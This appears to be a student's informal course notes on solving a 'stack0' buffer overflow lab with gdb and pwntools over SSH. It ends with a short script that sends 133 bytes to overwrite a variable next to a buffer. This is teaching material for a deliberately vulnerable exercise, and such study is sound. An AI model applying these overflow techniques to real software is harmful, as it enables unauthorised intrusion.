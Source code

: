 ```yaml
---
attachments: [Clipboard_2023-03-13-14-20-37.png, Clipboard_2023-03-13-14-22-20.png, Clipboard_2023-03-13-14-34-46.png]
tags: [CS4401]
title: SSH
created: '2023-03-13T17:34:25.078Z'
modified: '2023-03-23T18:16:12.261Z'
---
```


# SSH
ssh -i keys jdmeza@server

cd ito directory
ls -l shows permissions
file ./stack0-64 shows file info

touch up on gdb and assembly
ctrl + d kills ssh or gdb

pwntools
figure out docker

man command - manual for commandv

int - 4 bytes
pointer = 4 or 8 depends 32 bit or 64 bit

with tmux

![](@attachment/Clipboard_2023-03-13-14-22-20.png)

p.sendline(b'string')
p.recvall()

run file
look for address of unsecured variable

p buffer # print buffer
info locals # tells info about local vars
x buffer # examines buffer, 
p &buffer # address of buffer
on 64bit **stack** address looks like #7fffffffff...XXXX or something
p address2 - address1 # use p/d instead to show decimal
gets does not retain new line, fgets does
in py file, p.sendline(b')

x/s &buffer shows all chars sent but p buffer shows only size of buffer, may be other things between buffer and unsecured

we know where buffered and unsecured are, now we can input something into buffer to make unsecured non 0

![](@attachment/Clipboard_2023-03-13-14-34-46.png)

to solve and run on server

s = ssh('jdmeza', servername, keyfile='./keys' or password)
s.set_working_directory(server directory location)
p = s.process('./stack0-64')

p.sendline(b'a'*133)
...










